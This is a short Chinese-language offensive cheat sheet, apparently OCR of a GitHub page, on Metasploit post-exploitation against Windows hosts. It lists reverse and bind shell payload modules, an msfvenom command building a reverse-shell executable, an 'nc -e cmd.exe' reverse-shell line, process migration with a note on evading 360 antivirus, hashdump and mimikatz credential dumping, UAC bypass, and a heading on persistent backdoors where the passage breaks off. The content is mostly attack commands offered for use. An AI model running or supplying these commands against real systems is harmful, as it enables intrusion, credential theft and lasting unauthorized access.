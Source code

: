 > >
> > windows/shell_bind_tcp
> >
> > windows/x64/meterpreter/reverse_tcp
> >
> > windows/x64/meterpreter/bind_tcp
> >
> > windows/x64/shell_reverse_tcp
> >
> > windows/x64/shell_bind_tcp
>
> 目标服务器为 64 位用 x64 监听，反弹 meterpreter 用含有 meterpreter 的模块，反弹普通的 shell （例如 nc），shell_reverse_tcp 模块监听, 例如 msf:
>
> 反弹 shell  
>
> > msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe > shell.exe 
>
> 监听:
>
> > windows/meterpreter/reverse_tcp
>
> 反弹 shell  
>
> > nc -e cmd.exe ip port 
>
> 监听
>
> > windows/shell_reverse_tcp
>
> meterpreter 下上传 
>
> > upload file 
>
> 下载 
>
> > download file
>
> ### Msf 进程注入(测试 win10 没成功,win2008 可以，360 会拦)
>
> > meterpreter > getuid
> >
> > meterpreter > getpid
> >
> > meterpreter > ps
> >
> > meterpreter > migrate 676
>
> ### Msf hash
>
> > meterpreter > run hashdump    sys
> >
> > meterpreter > run post/windows/gather/smart_hashdump  需要 sys 权限
>
> getsystem 存在 uac，用 msf bypass，但特征明显 
>
> > meterpreter > search bypassuac
>
> > msf powerdump load mimikatz 不太好用
>
> ### Msf 的持续后门
>
> ****Persistence:** **